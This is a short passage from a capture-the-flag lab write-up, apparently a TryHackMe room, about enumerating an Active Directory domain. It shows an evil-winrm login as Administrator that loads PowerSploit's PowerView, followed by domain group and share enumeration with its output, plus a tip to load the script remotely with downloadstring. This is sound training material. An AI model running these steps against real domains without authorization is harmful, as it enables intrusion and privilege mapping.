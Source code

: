 ## Enumeration w/ Powerview
---

> Cheat Sheet: [https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993)

> Official Doc: https://powersploit.readthedocs.io/en/latest/

```bash
┌──(kali㉿kali)-[~/thm]
└─$ evil-winrm -i 10.10.70.75 -u Administrator -p 'P@$$W0rd' -s /opt/sectools/powershell/PowerSploit/Recon

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> PowerView.ps1
*Evil-WinRM* PS C:\Users\Administrator\Documents> menu

[+] Add-DomainGroupMember
[+] Add-DomainObjectAcl
[+] Add-RemoteConnection
[+] Add-Win32Type
[+] Convert-ADName
[+] Convert-DNSRecord
...
```

> It loads super slow when using script from `-s` in **evil-winrm**, should use `downloadstring` to avoid this 

Get Domain Admins:
```bash
Get-DomainGroupMember -Identity "Domain Admins" -Recurse
```

---

### What is the shared folder that is not set by default?

```bash
*Evil-WinRM* PS C:\Users\Administrator\Documents> Find-DomainShare

Name           Type Remark              ComputerName
----           ---- ------              ------------
ADMIN$   2147483648 Remote Admin        Domain-Controller.CONTROLLER.local
C$       2147483648 Default share       Domain-Controller.CONTROLLER.local
IPC$     2147483651 Remote IPC          Domain-Controller.CONTROLLER.local
NETLOGON          0 Logon server share  Domain-Controller.CONTROLLER.local
Share             0                     Domain-Controller.CONTROLLER.local
SYSVOL            0 Logon server share  Domain-Controller.CONTROLLER.local
```
